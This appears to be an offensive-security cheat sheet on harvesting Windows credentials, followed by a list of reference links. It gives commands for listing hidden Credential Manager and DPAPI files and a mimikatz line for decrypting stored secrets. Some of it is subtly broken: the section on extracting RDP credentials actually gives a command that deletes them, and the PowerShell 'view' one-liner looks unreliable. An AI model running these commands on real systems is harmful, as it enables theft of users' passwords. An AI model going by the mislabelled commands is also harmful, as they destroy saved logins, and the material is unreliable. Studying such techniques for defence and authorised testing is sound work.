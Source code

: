 # Living off the Land

## 01 - Types of credentials to dump

Various credentials will be harvested and they are:
- Web browsers
- Emails
- Video Conferences
- Wi-Fi credentials
- Certificates
- RDP passwords
- etc

## 01 - View Credentials

### 1.1 - PowerShell

```powershell
PS C:\> $credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

## 02 - List Credential Files

TODO: Fill this info

```
C:\> dir /a:h C:\Users\%username%\AppData\Local\Microsoft\Credentials

C:\> dir /a:h C:\Users\%username%\AppData\Roaming\Microsoft\Credentials

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

```
C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SUID>\<GUID>
```

```
mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\ /master-key:
```

## 03 - Extracting Saved RDP Credentials

### 3.1 - PowerShell

```
PS C:\> cmdkey.exe /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey.exe /delete:($_ -split ' ')[-1] }
```

---
## References

### LOFLCAB

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

### Hacktricks

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords)

### InternalAllTheThings

- [InternalAllTheThings: Windows - DPAPI](https://swisskyrepo.github.io/InternalAllTheThings/redteam/evasion/windows-dpapi)

### Hacking Articles

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

### The Hacker Recipes

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [The Hacker Recipes: Cred](https://tools.thehacker.recipes/mimikatz/modules/vault/cred)

- [The Hacker Recipes: Vault](https://tools.thehacker.recipes/mimikatz/modules/vault/list)

### harmj0y

- [harmj0y: Operational Guidance for Offensive User DPAPI Abuse](https://web.archive.org/web/20211206115041/https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

### Pentestlab

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)

### Passcape

- [Passcape Software: DPAPI Secrets](https://www.passcape.com/index.php?section=docsys&cmd=details&id=28)

### Bartosz Inglot

- [Bartosz Inglot: The Blackbox of DPAPI](https://github.com/msuiche/OPCDE/blob/master/2017/The%20Blackbox%20of%20DPAPI%20the%20gift%20that%20keeps%20on%20giving%20-%20Bartosz%20Inglot/The%20Blackbox%20of%20DPAPI%20-%20Bart%20Inglot.pdf)

### Jean Christophe Delaunay

- [Jean Christophe Delaunay: DPAPI exploitation during pentest and password cracking](https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf)

### Francesco Picasso:

- [Francesco Picasso: Happy DPAPI!](https://blog.digital-forensics.it/2015/01/happy-dpapi.html)

- [Francesco Picasso: ReVaulting! Decryption and opportunities](https://www.slideshare.net/slideshow/revaulting-decryption-and-opportunities/56834244)

### Itai Grady

- [Itai Grady: Protecting browsers’ secrets in a domain environment](https://www.slideshare.net/slideshow/protecting-browsers-secrets-in-adomainenvironment/63364753)

### Jean Michel Picod and Elie Bursztein

- [Jean Michel Picod and Elie Bursztein: Decrypting DPAPI data](https://elie.net/static/files/reversing-dpapi-and-stealing-windows-secrets-offline/reversing-dpapi-and-stealing-windows-secrets-offline-slides.pdf)

### Rasta Mouse

- [Rasta Mouse: Jumping Network Segregation with RDP](https://web.archive.org/web/20200525123919/https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)